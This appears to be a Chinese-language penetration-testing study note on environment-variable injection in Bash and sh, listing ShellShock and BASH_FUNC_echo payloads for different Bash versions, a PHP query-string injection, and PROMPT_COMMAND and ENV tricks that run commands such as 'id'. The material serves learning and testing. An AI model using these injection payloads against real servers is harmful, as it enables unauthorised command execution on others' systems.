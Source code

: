 #### payload

只适用于redhat系列--centos

> redhat系列sh指向bash
>
> ![image-20221126161815577](../images/image-20221126161815577-1686813288527.png)

> debian系列指向dash
>
> ![image-20221126163241501](../images/image-20221126163241501-1686813288527.png)

```shell
Bash没有修复ShellShock漏洞：直接使用ShellShock的POC进行测试，例如TEST='() { :; }'; id;

Bash 4.4以前：env $'BASH_FUNC_echo()=() { id; }' bash -c "echo hello"

Bash 4.4及以上：env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'
```

本地测试

```php
# system('echo hello'); # 相当于sh -c echo "command"
?envs[BASH_FUNC_echo()]=() { ls; }
```

<img src="E:\typora img\image-20221126170554976.png" alt="image-20221126170554976" style="zoom:50%;" />





#### 其他情况下的环境变量注入payload

##### redhat

- `PROMPT_COMMAND`：可以在`bash`交互式环境下执行任意命令

  ```shell
  PROMPT_COMMAND='id' bash
  ```

  ![image-20221126162222851](../images/image-20221126162222851-1686813288528.png)

##### 通用

- `ENV`：可以在`sh -i -c`的时候注入任意命令

```shell
ENV='$(id 1>&2)' sh -i -c "echo hello"
```

![image-20221126162443791](../images/image-20221126162443791-1686813288528.png)

![image-20221126162453087](../images/image-20221126162453087-1686813288528.png)

- `BASH_ENV`：可以在`bash -c`的时候注入任意命令
